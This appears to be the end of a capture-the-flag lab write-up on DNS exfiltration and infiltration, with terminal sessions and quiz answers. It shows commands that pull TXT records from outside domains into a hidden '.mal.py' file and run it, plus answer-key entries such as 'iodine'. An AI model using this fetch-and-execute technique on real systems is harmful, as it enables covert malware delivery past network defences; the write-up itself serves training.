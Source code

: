 ```bash
user@user1:~/challenges/infiltration$ nslookup -type=txt code.badbaddoma.in
Server:		10.0.0.2
Address:	10.0.0.2#53
```

```bash
user@user1:~/challenges/infiltration$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
```

```bash
user@user1:~/challenges/infiltration$ ls
TASK
user@user1:~/challenges/infiltration$ ls -la
total 12
drwxrwxr-x 2 user user 4096 Jul 20 11:50 .
drwxrwxr-x 4 user user 4096 Feb 14  2021 ..
-rw-rw-r-- 1 user user    0 Jul 20 11:51 .mal.py
-rw-rw-r-- 1 user user  452 Feb 26  2021 TASK
```

```bash
user@user1:~/challenges/infiltration$ nslookup -type=TXT code.nodrc.com | grep Yee | cut -d \" -f2 > .mal.py
```

```bash
user@user1:~/challenges/infiltration$ python3 ~/dns-exfil-infil/packetySimple.py
```

```bash
user@user1:~/challenges/infiltration$ python3 .mal.py 
4.4.0-186-generic
```

<br>

<h2>Task 11 . DNS Tunelling</h2>

<br>

<h3 align="left"> Answer the question below</h3>

<p>11.1. What program was used to Tunnel HTTP over DNS?<br>
<code>iodine</code></p>

<br>

<h2>Task 12 . The End</h2>

<br>

<h3 align="left"> Answer the question below</h3>

<p>12.1. End<br>
<code>No answer needed</code></p>

<br>
<br>
